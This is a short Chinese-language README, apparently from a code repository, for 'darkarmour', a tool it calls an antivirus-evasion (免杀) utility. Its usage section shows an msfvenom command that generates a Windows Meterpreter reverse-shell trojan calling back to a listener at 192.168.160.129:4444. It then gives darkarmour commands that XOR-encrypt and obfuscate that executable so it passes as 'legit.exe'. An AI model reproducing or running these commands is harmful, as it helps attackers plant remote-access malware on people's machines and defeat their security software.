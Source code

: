 # darkarmour
darkarmour是一个免杀工具


### 安装方法
```
docker build .
```

```
docker run -it xxxxxx bash
```



### 使用方法

#### 一、生成木马程序
```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.160.129 LPORT=4444 -f exe -o exploit.exe
```
#### 二、生成混淆程序
```
python3 darkarmour.py -f /root/exploit.exe -e xor -j -k darkbyte -l 500 -u -o /root/exploit_encoded.exe
```
或者
```
python3 darkarmour.py -f /root/exploit.exe --encrypt xor --jmp -o bins/legit.exe --loop 5
```

